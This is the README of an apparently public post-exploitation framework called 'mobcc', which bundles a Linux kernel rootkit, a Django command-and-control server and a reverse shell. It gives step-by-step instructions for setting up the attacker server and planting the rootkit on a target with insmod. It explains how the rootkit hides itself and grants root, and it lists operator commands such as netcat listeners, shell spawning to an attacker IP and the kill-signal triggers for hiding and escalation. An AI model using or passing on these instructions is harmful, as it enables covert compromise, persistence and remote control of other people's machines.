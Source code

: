 # mobcc

Mob CC is a post-exploitation framework containing a Linux kernel rootkit, C2 server, and Reverse shell with network scanning capabilities.

---

## Usage:
### Attacking side:
  - Download and install Django in your attacking system. 'pip install Django'
  - Download the mobserver directory. You can delete the database file (i.e., db.sqlite3)
  - Change the directory to mobserver ( cd /path/to/mobserver/ ) and delete all migration directories from the app directory.

  ### Setup the database:
    python3 ./manage.py makemigrations
    python3 ./manage.py migrate

  ### Run server:
    python3 ./manage.py runserver <IP> <port>

#### Note:
  - You can modify the IP address of the attacking machine.
  - If you wish to modify 'mob_client.py' you need to convert mob_client.py into a base64 string.
    `base64 mob_client.py`
  - Copy the base64 string and paste it in the place of the default string in 'mob.c'.
  
### Target Side:
  - Download the 'mob.c', 'make', and 'ftrace_helper.h' files and build the module using the make command (Make sure of the kernel version of the target system).  
  - Install the kernel module (mob.ko) using the insmod command. (This step should be done after the C&C server runs on the attacking machine)

  `sudo insmod mob.ko`

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer_helper.h is a helping module trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide themselves from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor, which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by auto-collecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and receive responses from the target system via reverse shell.
  - Provide a list of every compromised system's commands and responses.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Screenshots:
  ## Home Page
  ![Home Page](/images/mobcc_home.png)

  ## Send Commands
  ![Send Commands](/images/connect_mob_client.png)

  ## Scan Network
  ![Scan Network](/images/scanning_network.png)

  ## Spawn Shell
  ![Spawn Shell](/images/spawn_newshell.png)

---

# Note:
  - Note that if you kill the reverse shell process, you must install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from a different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using a reverse shell-like above. 'kill -64 1'

---


# Resources:
Learn how to create Linux Kernel modules: https://xcellerator.github.io/posts/linux_rootkits_01/
